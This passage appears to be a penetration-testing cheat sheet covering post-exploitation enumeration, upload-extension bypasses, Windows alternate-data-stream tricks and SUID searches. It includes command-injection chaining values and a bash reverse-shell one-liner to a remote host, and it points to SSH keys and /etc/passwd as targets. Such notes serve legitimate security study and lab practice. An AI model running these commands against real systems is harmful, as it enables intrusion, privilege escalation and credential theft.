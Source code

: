 ```

### PHP Deserialisation attack
WIP

## Post Exploitation
Check for current running processes:
```
ps aux
```

Check for conf file of a running software/service in: ```/etc/<service>/*.conf```

Check for current network connections:
```
ss -lntp
```
Check for interesting files:
ssh keys, logs file (if got permission), /etc/passwd, /opt, cronjob

## Chaining commands:
If we can run certain commands on the server, check if we can chain commands
```
;ls
&pwd
;bash -c 'bash -i >& /dev/tcp/$RHOST/$RPORT 0>&1'
```


## Some notes:

Some file extensions that can potentially bypass extension check:
PHP: phtml, php3, php4, php5, .inc
ASP: aspx
PERL: pl, .cgi, .lib
JSP: jspx, jsw, jsv, jspf


On Windows machines, files can be hidden on different data streams ($DATA and $INDEX_LOCATION), reveal with ```dir /r``` and show content with more < $FILENAME:STREAM\
With PowerShell: ```Get-Iteam -path %PATH%  -stream * ```\
Search for Alternate Data Stream (ADS) with PowerShell: ```gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'```\
In SMB Client: ```allinfo <FILENAME>``` -> output:\
```stream: [::$DATA], 0 bytes```\
```stream: [:Password:$DATA], 15 bytes```\
```get "FILE:Password:$DATA"```

Connect to **Microsoft SQL Database** from local Kali machine with ```mssqlclient.py``` from python-impacket 

Run sudo command as another user:
```
sudo -H -u username
```

Find all SUID files:
```
find / -perm /4000 -exec ls -l {} \; 2>/dev/null
```
Find all files owned by an user:
```
find / -username -exec ls -l {} \; 2>/dev/null
```

### Inject commands without white spaces:
**Using bash brace expansion**\
```